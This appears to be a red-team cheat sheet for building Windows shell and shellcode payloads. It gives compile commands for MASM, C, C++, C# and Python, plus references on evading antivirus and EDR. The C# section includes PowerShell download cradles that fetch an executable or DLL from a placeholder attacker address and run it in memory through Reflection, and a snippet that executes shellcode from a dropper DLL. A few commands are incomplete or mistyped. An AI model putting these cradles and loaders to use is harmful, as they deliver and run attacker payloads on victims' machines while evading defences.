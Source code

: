 # Windows

## 01 - MASM

```
C:\> ml /c /coff shell.asm

C:\> link /SUBSYSTEM:WINDOWS /ENTRY:start /VERSION:4.0 shell.obj

C:\> objcopy -O binary shell.exe shell.bin
```

## 02 - C

- **Compile Windows binaries in Linux**

`$ i686-w64-mingw32-gcc shellcode.c -o shell.exe`

`$ x86_64-w64-mingw32-gcc shellcode.c -o shell.exe`

`$ clang -target x86_64-pc-windows-gnu shell.c -o shell.exe`

`$ zig cc --target=x86_64-windows-gnu -static shell.c -o shell.exe`

- **Compile Windows binaries in Linux with icons**

`$ x86_64-w64-mingw32-windres resource.rc resource.o`

`$ x86_64-w64-mingw32-gcc -o shell.exe resource.o shell.c`

- **Compile Windows Dynamic Linked Library in Linux**

`$ i686-w64-mingw32-gcc shellcode.c -shared -o shell-x86.dll`

`$ x86_64-w64-mingw32-gcc shellcode.c -shared -o shell-x86_64.dll`

- **Compile Windows binaries**

`C:\> cl.exe /W4 /EHsc shellcode.c /link /out:shellcode.exe`

- **Compile Windows Dynamic Linked Library**

`C:\>`

- **Compile Windows binaries with icons**

`C:\> rc resource.rc`

`C:\> cvtres /machine:x64 /out:resource.o resource.res`

`C:\> cl.exe /nologo /0x /W0 /GS- /DNDEBUG /Tcshell.c /link /out:shell.exe /subsystem:console /machine:x64 resource.o`

## 03 - C++

- **Compile Windows binaries in Linux**

`$ i686-w64-mingw32-g++ shell.cpp -o shell.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc`

`$ x86_64-w64-mingw32-g++ shell.cpp -o shell.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive`

`$ clang++ -target x86_64-pc-windows-gnu shell.cpp -o shell.exe`

`$ zig c++ --target=x86_64-windows-gnu  -static shell.cpp -o shell.exe`

- **Compile Windows Dynamic Linked Library in Linux**

`$ i686-w64-mingw32-g++ shell.cpp -o shell.dll -shared -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc`

`$ x86_64-w64-mingw32-g++ shell.cpp -o shell.dll -shared -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive`

- **Compile Windows binaries in Windows**

`C:\> g++ shell.cpp -o shell.exe -s -static -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive`

`C:\> cl.exe /W4 /EHsc /Tcshell.cpp /link /out:shell.exe /subsystem:console /machine:x64`

`C:\> cl.exe /nologo /0x /W0 /GS- /DNDEBUG /Tcshell.cpp /link /out:shell.exe /subsystem:console /machine:x64`
- **Compile Windows Dynamic Linked Library in Windows**

`C:\> g++ shell.cpp -o shell.dll -shared -s -static -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive`

## 04 - C\#

- **Create .NET Console Project**

`C:\> dotnet new console`

- **Compile C# Project of Windows executable**

`C:\> dotnet publish -r win-x64 -c Release -p:PublishSingleFile=true --sc false -p:PublishTrimmed=true`

`C:\> dotnet publish -r win10-x64 -c Release -p:PublishSingleFile=true --sc false -p:PublishTrimmed=true`

`C:\> dotnet publish -f net6.0 -r win-x64 -c Release -p:PublishSingleFile=true --sc false -p:PublishTrimmed=true`

Or you can just use `build`

`C:\> dotnet build -r win-x64 -c Release -p:PublishSingleFile=true -p:PublishTrimmed=true`

`C:\> dotnet build -r win-x64 -c Release -p:PublishSingleFile=true -p:AllowUnsafeBlocks=true -p:PublishTrimmed=true`

`$ cat download-cradle-exe.ps1`

---

```powershell
$data = (New-Object Net.WebClient).DownloadData("http://<IP>/Shellcode.exe")
$assem = [System.Reflection.Assembly]::Load($data)
[Shell.Program()]::Main()
# [Program()]::Main()
# [Shell.Program()]::Main("".Split())
```

- **Compile C# DLL**

`C:\> dotnet new classlib`

`C:\> dotnet publish -r win-x64 -c Release --sc false -p:PublishTrimmed=true`

`C:\> dotnet build -r win-x64 -c Release --sc false -p:PublishTrimmed=true`

Allow unsafe code

`C:\> dotnet publish -r win-x64 -c Release -p:AllowUnsafeBlocks=true --sc false -p:PublishTrimmed=true`

`C:\> dotnet build -c Release -p:AllowUnsafeBlocks=true --sc false -p:PublishTrimmed=true`

Execute Shellcode

```
PS C:\> [System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("DLLDropper.dll")
PS C:\> [RunDLLPublicFunc.Class1]::runner()
```

`$ cat download-cradle-dll.ps1`

---

```powershell
$data = (New-Object Net.WebClient).DownloadData("http://<IP>/Shellcode.dll")
$assembly = [System.Reflection.Assembly]::Load($data)
$class = $assembly.GetType("Shellcode.Class1")
$method = $class.GetMethod("<method_name>")
$method.Invoke(0, $null)
```

## 05 - Python

`$ nuitka.bat --onefile shell.py`

## References

- [EDR and Blending In: How Attackers Avoid Getting Caught](https://www.optiv.com/insights/source-zero/blog/edr-and-blending-how-attackers-avoid-getting-caught)

- [Quickpost Compiling EXEs and Resources with Mingw on Kali](https://blog.didierstevens.com/2018/09/17/quickpost-compiling-exes-and-resources-with-mingw-on-kali/)

- [Zig C Compiler Powerful Drop in Replacment GCC Clang](https://andrewkelley.me/post/zig-cc-powerful-drop-in-replacement-gcc-clang.html)

- [Purpl3f0xsecur1ty.tech AV Evasion.html](https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html)

- [https://medium.com/@carlosprincipal1/how-to-bypass-antivirus-av-2020-easy-method-69749892928b](https://medium.com/@carlosprincipal1/how-to-bypass-antivirus-av-2020-easy-method-69749892928b)

- [https://github.com/In3x0rabl3/OSEP](https://github.com/In3x0rabl3/OSEP)

- [https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481](https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481)

- [Nuitka](https://nuitka.net/)